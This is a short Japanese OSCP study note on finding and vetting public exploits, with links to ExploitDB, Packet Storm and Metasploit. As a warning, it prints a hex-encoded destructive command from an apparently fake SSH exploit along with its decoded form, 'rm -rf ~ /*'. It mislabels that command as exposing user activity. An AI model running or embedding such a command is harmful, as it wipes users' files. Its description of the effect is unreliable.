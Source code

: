 # パブリックエクスプロイトの特定

## 概要
パブリックエクスプロイトの悪用というのは、既に公開されている脆弱性を突くようなエクスプロイトを検索し、そのエクスプロイトを使用するプロセスのこと。  
  
ここで重要になるのは、公開されているエクスプロイトを検索するスキルと、エクスプロイトが刺さるようにカスタムできるスキル。  
  
## 重要な注意事項
公開されているエクスプロイトをダウンロード・実行するというのは大きなリスクを伴うということを理解するべき。  
  
例えば実例として、**OpenOwn**を使用したSSHのリモートエクスプロイトを見てみる。
```
\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f
\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26
```
そこには上記の文字列があるが、これは16進数でエンコードされており、デコードすると以下になる。
```
rm -rf ~ /* 2> /dev/null &
```
上記の文字列は、外部にユーザの行動を公開する可能性がある危険性のあるエクスプロイトである。  
  
上記のような危険なエクスプロイトもあるため、パブリックエクスプロイトを利用するときは必ずコードを読んで動きを理解すること。


## Online Exploit Resources
パブリックエクスプロイトを探すときのリソース  
  
1. [ExploitDB](https://www.exploit-db.com/)
2. [Packet Storm](https://packetstormsecurity.com/) => ニュースサイトみたいなやつ
3. [Offsec Repositry](https://github.com/offensive-security)
4. Google検索:   
検索例  
"Microsoft Edge site:exploit-db.com"

## Offline Exploit Resources
インターネットアクセスできない場合でもExploitを探す方法。  
[Metasploit](OSCP-Cheat-Sheet\Tools\Metasploit.md)等がある。  
また、[ExploitDB](OSCP-Cheat-Sheet\Tools\Exploitdb.md)や[Nmap NSE Scripts](OSCP-Cheat-Sheet\Tools\Nmap.md)を使うこともできる。  
  
